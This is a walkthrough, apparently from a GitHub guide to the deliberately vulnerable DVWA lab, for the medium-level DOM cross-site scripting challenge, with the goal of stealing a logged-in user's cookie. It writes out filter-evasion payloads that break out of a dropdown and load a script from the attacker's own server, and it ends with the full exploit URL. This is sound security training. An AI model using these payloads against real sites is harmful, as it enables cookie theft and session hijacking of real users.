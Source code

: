 <b>Challenge URL:</b> /dvwa/vulnerabilities/xss_d/
<br>
<b>Objective:</b> Steal the cookie of a logged-in user.
<br>
<b>Tools needed:</b> A temporary web server
<br><br>
<i>Did you remember to read this section's <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge%2010:%20XSS%20(DOM).md" target="_blank">README</a>?</i>

<h2><b>The Guide</b></h2>

<i>Since this challenge is very similar to the easy mode challenge, I'd highly recommend re-reading <a href="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/low/Challenge 02: Command Injection.md" target="_blank">our notes from before</a>. We'll be using a lot of the analysis and code from before.</i>

<h3><b>What's Changed</b></h3>

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/xssdsource.png" width="500">

Upon reviewing the source code for this challenge, we see that the developer simply checks if the URL now has the string <code>&#60;script</code>. If it does, we set the <b>default</b> parameter to "English" and ignore the input. Seems pretty wise, right? Unfortunately not, as there are <a href="https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet#Tests" target="_blank">many, many other ways</a> to trigger a cross-site scripting vulnerability.

<h3><b>Crafting a New Exploit</b></h3>

So let's grab a XSS exploit that doesn't use the <code>&#60;script</code> tag. Once we find one, let's point it to our <code>a.js</code> payload from before. An easy and convenient one would be something like:

<code>&#60;img src='http://[your_Kali_IP]:9999/a.js'></code> 

Let's start by initializing our temporary Kali web server, then by trying to execute the payload as shown above:

<img src="https://github.com/keewenaw/dvwa-guide-2019/blob/master/medium/screenshots/xssdfail.png" width="500">

Hm, the URL doesn't change, nor do we see a call to our payload on our webserver. What could be the cause? Let's look at how our dropdown is constructed:

<img src="https://github.com/mrudnitsky/dvwa-guide-2019/blob/master/medium/screenshots/xssdsourceclient.png" width="500">

So it essentially injects whatever we put into the URL into the top row of the dropdown. We can't actually insert an image into a dropdown (<a href="https://stackoverflow.com/questions/4941004/putting-images-with-options-in-a-dropdown-list" target="_blank">source</a>). The next best thing is to modify our payload to break us out of the dropdown completely, so that we can "display" our "image" on the page itself. Let's try something like this:

<code>&#60;/option&#62;&#60;/select&#62;&#60;img src=&#x27;http&#58;//[your_Kali_IP]:9999/a.js&#x27;&#62;</code>

If we put that in our URL, it should work, fingers crossed: 

<b>http&#58;//dvwa/dvwa/vulnerabilities/xss_d/?default=English&#60;/option&#62;&#60;/select&#62;&#60;img src=&#x27;</b>[your_Kali_IP]<b>:9999/a.js&#x27;&#62;</b>
